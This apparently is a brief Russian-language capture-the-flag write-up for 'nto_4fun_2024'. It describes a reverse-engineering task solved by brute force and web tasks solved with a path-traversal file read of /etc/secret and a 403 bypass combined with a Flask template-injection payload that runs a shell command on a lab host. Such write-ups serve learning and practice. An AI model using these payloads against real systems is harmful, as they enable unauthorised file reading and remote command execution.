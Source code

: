 # nto_4fun_2024
REV-1. В таске был encrypt ввода, после чего его версия сравнивалась с заданной
 ![Screenshot_2024-03-21_14_07_43](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/f9103d65-ba78-4d0e-915e-e0956b53be2c)
Для решения таска необходимо было забрутить его значения.
- **Код приложен в файле с названием REV-1**

# Web-1
1. burp
2. target
3. download запрос на file1.txt
4. hint1: указание что флаг в /etc/secret
5. LFI /download?file_type=../../etc/secret
6. Profit!
![web1 1](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/68bb735e-ca77-4362-b6ce-46de99d7310d)
![web1 2](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/b980683b-8f5e-42af-bad5-7112e81a6bf6)


web2
magic(?)

web3
403 error bypass(дополнительный / перед flag)
template injection flask
http://192.168.12.11:8001//flag?name={{self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%22cat%20flag.txt%22).read()}}
![web3](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/14cc0e39-3750-47b6-b74d-4bb765d1c289)

